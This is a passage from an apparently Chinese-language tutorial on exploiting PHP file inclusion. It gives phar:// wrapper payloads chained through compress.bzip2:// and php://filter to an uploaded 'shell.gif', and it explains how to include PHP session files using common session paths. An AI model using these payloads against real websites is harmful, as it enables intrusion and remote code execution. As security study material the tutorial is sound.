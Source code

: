 



### 混合利用：bzlib2+phar

```php
compress.bzip2://phar://upload_file/shell.gif/a
```



### 混合利用：php+phar 

```php
php://filter/resource=phar://upload/46c01c941bd10a9c3038752f7354f2e8/b1b288ddc6069e3befa40731e382b192.jpeg
```



## 0x04 利用思路



### 包含session

利用条件：session文件路径已知，且其中内容部分可控。

姿势：

php的session文件的保存路径可以在phpinfo的session.save_path看到。
[![img](assets/14.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/14.png?raw=true)

常见的php-session存放位置：

1. /var/lib/php/sess_PHPSESSID
2. /var/lib/php/sess_PHPSESSID
3. /tmp/sess_PHPSESSID
4. /tmp/sessions/sess_PHPSESSID

session的文件名格式为sess_[phpsessid]。而phpsessid在发送的请求的cookie字段中可以看到。
[![img](assets/16.png)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/16.png?raw=true)
